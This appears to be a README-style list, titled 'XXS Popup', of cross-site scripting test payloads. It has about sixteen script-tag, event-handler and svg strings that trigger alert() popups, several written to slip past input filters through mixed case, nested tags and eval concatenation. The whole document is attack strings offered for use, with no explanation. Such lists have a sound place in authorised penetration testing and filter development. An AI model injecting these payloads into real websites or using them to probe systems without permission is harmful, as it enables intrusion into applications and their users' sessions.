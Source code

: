 # Payloads
## XXS Popup:
> <script>alert("XSS");</script>
<script>alert(‘XSS’);</script>
<script>alert(‘XSS’)</script>
<<script>alert("XSS");//<</script>
<sCripT>alert("XSS")</scRipt>
<scr<script>ipt>alert('XSS')</script>
<sCripT>alert('XSS')</scRipt>
<img src="/" onerror="alert('XSS')"/>
<img src=x onMouseOver=alert('XSS')>
<svg/onload=eval("ale"+"rt")(`XSS${alert`XSS`}`)>
<img src='nevermind' onerror="alert('XSS');" />
<< script>alert("XSS");//<</ script>
<svg/onload=alert('XSS')>
div.innerHTML = '<script deferred>alert("XSS");</script>';
<img src="aaa" onerror=alert('xxs')>
<body onload="alert('XSS')">
